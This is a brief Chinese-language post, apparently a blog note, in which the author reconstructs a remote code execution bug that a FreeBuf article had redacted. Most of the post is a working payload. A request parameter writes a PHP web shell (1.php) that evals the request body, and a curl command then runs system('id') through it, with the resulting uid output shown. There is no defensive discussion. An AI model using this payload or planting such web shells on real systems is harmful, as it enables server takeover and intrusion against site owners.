 今天看了这篇文章

https://www.freebuf.com/vuls/217586.html 

看到有个rce被打码了，于是分析一下代码。搞定。

?a=fetch&content=<?php+file_put_contents("1.php","<?php+@eval(file_get_contents('php://input'));");

➜ curl http://xxxxxxx/1.php --data "system('id');"    
uid=1000(www) gid=1000(www) groups=1000(www)


顺便说一下这个漏洞之前在先知上发过。https://xz.aliyun.com/t/3529
